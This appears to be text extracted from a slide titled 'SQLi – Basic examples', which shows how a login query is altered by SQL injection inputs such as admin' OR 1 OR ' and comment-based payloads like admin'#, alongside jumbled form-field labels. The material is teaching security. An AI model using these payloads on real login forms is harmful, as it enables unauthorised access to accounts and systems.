

# SQLi – Basic examples
SELECT username,password WHERE username=‘username’ AND password=‘password’;

SELECT username,password WHERE username=‘admin’ AND password=‘abc123’;

SELECT username,password WHERE username=‘admin’ blabla’ AND password=‘abc123’;

SELECT username,password WHERE username=‘admin’ OR 1 OR ‘’ AND password=‘abc123’;

SELECT username,password WHERE username=‘admin’#’ AND password=‘abc123’;
SELECT username,password WHERE username=‘admin’-- ’ AND password=‘abc123’;

username
admin
password
abc123

abc123
username
password

admin’ blabla
username
admin’ OR 1 OR ‘
password

abc123
username
password

abc123
admin’#